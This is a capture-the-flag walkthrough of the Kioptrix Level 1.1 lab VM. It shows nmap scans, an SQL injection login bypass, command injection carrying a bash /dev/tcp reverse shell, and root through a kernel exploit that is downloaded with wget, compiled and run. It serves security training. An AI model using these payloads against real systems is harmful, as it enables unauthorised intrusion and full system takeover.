



#Kioptrix: Level 1.1
https://www.vulnhub.com/entry/kioptrix-level-11-2,23/
This box is similar to Kioptrix 1 except there's a few more steps along the way.
Not big ones, though.
0) Find the VM's IP
To find your VM's IP address, set your VM to ‘bridged’ so that it gets assigned an IP on your internal network and then use netdiscover to scan your network: netdiscover -r <internal network>/24
netdiscover -r 192.168.1.1/24
192.168.1.184 is my Kioptrix Level 1.1 box.
Take a snapshot of the VM at this point, just to be safe.
1) Nmap
Initial scan:
nmap -sC -sV -O -oN nmap/initial.txt 192.168.1.184
-sC default scripts
-sV service enumeration
-O OS detection
-oN default output
Results:
root@kali:~/ctf/kioptrix2# mkdir nmap
root@kali:~/ctf/kioptrix2# nmap -sC -sV -O -oN nmap/initial.txt 192.168.1.184
Starting Nmap 7.70 ( https://nmap.org ) at 2019-04-06 12:26 BST
Nmap scan report for Unknown-00-0c-29-44-8d-1c.lan (192.168.1.184)
Host is up (0.00054s latency).
Not shown: 994 closed ports
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 3.9p1 (protocol 1.99)
| ssh-hostkey:
| 1024 8f:3e:8b:1e:58:63:fe:cf:27:a3:18:09:3b:52:cf:72 (RSA1)
| 1024 34:6b:45:3d:ba:ce:ca:b2:53:55:ef:1e:43:70:38:36 (DSA)
|_ 1024 68:4d:8c:bb:b6:5a:bd:79:71:b8:71:47:ea:00:42:61 (RSA)
|_sshv1: Server supports SSHv1
80/tcp open http Apache httpd 2.0.52 ((CentOS))
|_http-server-header: Apache/2.0.52 (CentOS)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
111/tcp open rpcbind 2 (RPC #100000)
| rpcinfo:
| program version port/proto service
| 100000 2 111/tcp rpcbind
| 100000 2 111/udp rpcbind
| 100024 1 615/udp status
|_ 100024 1 618/tcp status
443/tcp open ssl/http Apache httpd 2.0.52 ((CentOS))
|_http-server-header: Apache/2.0.52 (CentOS)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
| ssl-cert: Subject: commonName=localhost.localdomain/organizationName=SomeOrganization/stateOrProvinceName=SomeState/countryName=--
| Not valid before: 2009-10-08T00:10:47
|_Not valid after: 2010-10-08T00:10:47
|_ssl-date: 2019-04-06T08:17:02+00:00; -3h09m37s from scanner time.
| sslv2:
| SSLv2 supported
| ciphers:
| SSL2_RC2_128_CBC_EXPORT40_WITH_MD5
| SSL2_RC4_64_WITH_MD5
| SSL2_DES_192_EDE3_CBC_WITH_MD5
| SSL2_RC2_128_CBC_WITH_MD5
| SSL2_RC4_128_WITH_MD5
| SSL2_DES_64_CBC_WITH_MD5
|_ SSL2_RC4_128_EXPORT40_WITH_MD5
631/tcp open ipp CUPS 1.1
| http-methods:
|_ Potentially risky methods: PUT
|_http-server-header: CUPS/1.1
|_http-title: 403 Forbidden
3306/tcp open mysql MySQL (unauthorized)
MAC Address: 00:0C:29:44:8D:1C (VMware)
Device type: general purpose
Running: Linux 2.6.X
OS CPE: cpe:/o:linux:linux_kernel:2.6
OS details: Linux 2.6.9 - 2.6.30
Network Distance: 1 hop
Host script results:
|_clock-skew: mean: -3h09m37s, deviation: 0s, median: -3h09m37s
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 15.27 seconds
• 22/ssh we can't do anything without a username or a password to brute force.
• 80/http is a ‘Remote System Administration Login’ portal, how nice!
• 111/rpc is open. I'm not sure why :/
• 443/https is the same as 80/http
• 631/CUPS stands for ‘Common Unix Printing System’ and we're given a ‘Forbidden’ if trying to access it on http://192.168.1.184:631
Full scan:
nmap -p- -sV -T4 -oN nmap/full.txt 192.168.1.184
-p- all ports
-sV service enumeration
-T4 speedier scan
-oN default output
I ran a full port scan, and found that mysql was open
root@kali:~/ctf/kioptrix2# nmap -p- -sV -T4 -oN nmap/full.txt 192.168.1.184
Starting Nmap 7.70 ( https://nmap.org ) at 2019-04-06 12:28 BST
Nmap scan report for Unknown-00-0c-29-44-8d-1c.lan (192.168.1.184)
Host is up (0.0050s latency).
Not shown: 65528 closed ports
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 3.9p1 (protocol 1.99)
80/tcp open http Apache httpd 2.0.52 ((CentOS))
111/tcp open rpcbind 2 (RPC #100000)
443/tcp open ssl/http Apache httpd 2.0.52 ((CentOS))
618/tcp open status 1 (RPC #100024)
631/tcp open ipp CUPS 1.1
3306/tcp open mysql MySQL (unauthorized)
MAC Address: 00:0C:29:44:8D:1C (VMware)
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 17.80 seconds
But upon trying to connect remotely, you're denied:
root@kali:~/ctf/kioptrix2# mysql -h 192.168.1.184
ERROR 1130 (HY000): Host 'kali.lan' is not allowed to connect to this MySQL server
2) SQL Injection
When visiting the website, you're presented with this:

My first thought upon seeing a form like this is sql injection.
username: admin
password: ' OR '1
Nice!
3) Command Injection
‘Ping a Machine on the Network:’ looks like command injection. It asks us to provide an IP to ping in the web form, meaning that this page is running linux commands for us. All we have to do is escape the current command by ending it (;) and inserting whatever system command we like (whoami)

I entered ; ls /bin to check what reverse shells I could create, and then ran one using bash.
Start a listener on the kali machine to receive the shell:
root@kali:~/ctf/kioptrix2# nc -lvnp 9001
listening on [any] 9001 ...
And then run the reverse shell using the web form:
; bash -i >& /dev/tcp/192.168.1.183/9001 0>&1

You should receive a shell on your listener!:
root@kali:~/ctf/kioptrix2# nc -lvnp 9001
listening on [any] 9001 ...
connect to [192.168.1.183] from (UNKNOWN) [192.168.1.184] 32769
bash: no job control in this shell
bash-3.00$ ls
index.php
pingit.php
bash-3.00$ id
uid=48(apache) gid=48(apache) groups=48(apache)
bash-3.00$
4) ring0
I gathered some info first:
bash-3.00$ ls -alh /home
total 24K
drwxr-xr-x 4 root root 4.0K Oct 12 2009 .
drwxr-xr-x 23 root root 4.0K Apr 6 04:11 ..
drwx------ 2 harold harold 4.0K Oct 12 2009 harold
drwx------ 2 john john 4.0K Oct 8 2009 john
bash-3.00$ cat /etc/*-release
CentOS release 4.5 (Final)
bash-3.00$ uname -mrs
Linux 2.6.9-55.EL i686
bash-3.00$ uname -a
Linux kioptrix.level2 2.6.9-55.EL #1 Wed May 2 13:52:16 EDT 2007 i686 i686 i386 GNU/Linux
bash-3.00$ ps aux | grep root
...
root 3140 0.0 0.9 5980 1236 ? S 04:12 0:00 /bin/sh /usr/bin/mysqld_safe --datadir=/var/lib/mysql --socket=/var/lib/mysql/mysql.sock --err-log=/var/log/mysqld.log --pid-file=/var/run/mysqld/mysqld.pid
...
bash-3.00$ find / -perm -u=s -type f 2>/dev/null
...
No exploitable SUID binaries - find / -perm -u=s -type f 2>/dev/null
mysql was running as root - ps aux | grep root - and was accessible without a password, but I couldn't find anything useful inside/to do with it.
bash-3.00$ mysql
mysql
Welcome to the MySQL monitor. Commands end with ; or \g.
Your MySQL connection id is 586 to server version: 4.1.22
Type 'help;' or '\h' for help. Type '\c' to clear the buffer.
mysql> SHOW DATABASES;
SHOW DATABASES;
+----------+
| Database |
+----------+
| test |
+----------+
1 row in set (0.00 sec)
mysql> USE test;
USE test;
Database changed
mysql> SHOW TABLES;
SHOW TABLES;
Empty set (0.00 sec)
I only found 1 method to get root on this machine, and that was using an exploit.
I got kernel and distro information from cat /etc/*-release and uname -mrs in the initial block of commands.
root@kali:~/ctf/kioptrix2# searchsploit centOS 4.5 linux kernel 2.6
-------------------------------------------------------------
Exploit Title | Path
| (/usr/share/exploitdb/)
-------------------------------------------------------------
Linux Kernel 2.6 < 2.6.19 (White Box 4 / CentOS 4.4/4.5 / Fe | exploits/linux_x86/local/9542.c
-------------------------------------------------------------
I copied and served the exploit to my victim machine using python -m SimpleHTTPServer
root@kali:~/ctf/kioptrix2# mkdir exploits
root@kali:~/ctf/kioptrix2# cd exploits
root@kali:~/ctf/kioptrix2/exploits# cp /usr/share/exploitdb/exploits/linux_x86/local/9542.c .
root@kali:~/ctf/kioptrix2/exploits# ls
9542.c
root@kali:~/ctf/kioptrix2/exploits# mv 9542.c 9542
root@kali:~/ctf/kioptrix2/exploits# python -m SimpleHTTPServer
Serving HTTP on 0.0.0.0 port 8000 ...
And then on the victim machine downloaded the exploit, compiled it and ran it:
bash-3.00$ wget http://192.168.1.183:8000/9542
--05:51:55-- http://192.168.1.183:8000/9542
=> `9542'
Connecting to 192.168.1.183:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 2,643 (2.6K) [application/octet-stream]
0K .. 100% 8.03 MB/s
05:51:55 (8.03 MB/s) - `9542' saved [2643/2643]
bash-3.00$ ls
9542
bash-3.00$ mv 9542 9542.c
bash-3.00$ gcc 9542.c -o ring0
9542.c:109:28: warning: no newline at end of file
bash-3.00$ ls
9542.c
ring0
bash-3.00$ ./ring0
sh: no job control in this shell
sh-3.00# id
uid=0(root) gid=0(root) groups=48(apache)
sh-3.00#
Success! A root shell :)